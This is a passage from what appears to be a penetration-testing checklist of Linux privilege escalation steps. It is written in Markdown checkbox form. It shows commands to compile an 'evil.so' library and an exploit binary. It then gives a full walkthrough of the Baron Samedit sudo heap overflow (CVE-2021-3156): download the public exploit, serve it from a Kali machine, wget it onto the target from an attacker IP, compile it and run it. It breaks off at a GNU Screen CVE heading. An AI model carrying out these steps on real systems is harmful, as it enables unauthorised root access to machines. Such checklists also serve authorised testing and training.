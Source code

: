 - [ ] Compile the binaries on the Target Machine
```bash
gcc -shared -o evil.so -fPIC evil-so.c
gcc exploit.c -o exploit
```

- [ ] Make the binary executable on the Target Machine
```
chmod 777 exploit
```

- [ ] Run exploit on the Target Machine
```bash
./exploit
```

## Baron Samedit sudo heap based buffer overflow  (CVE-2021-3156)

- [ ] Download exploit on your Kali Machine
```
wget https://codeload.github.com/blasty/CVE-2021-3156/zip/main
```

- [ ] Serve file with python web server on your Kali Machine
```bash
python3 -m http.server 80
```

- [ ] Download file on the Target Machine
```
wget http://192.168.xxx.xxx:80/main.zip
```

- [ ] Un-compress file on the Target Machine
```
unzip main
```

- [ ] Compile binary on the Target Machine
```
cd CVE-2021-3156-main
make
```

- [ ] Make the binary executable on the Target Machine
```
chmod 777 sudo-hax-me-a-sandwich
```

- [ ] Run exploit on the Target Machine
```
./sudo-hax-me-a-sandwich 0
./sudo-hax-me-a-sandwich 1
./sudo-hax-me-a-sandwich 2
```

## GNU Screen 4.5.0 - Local Privilege Escalation (CVE-2017-5618)
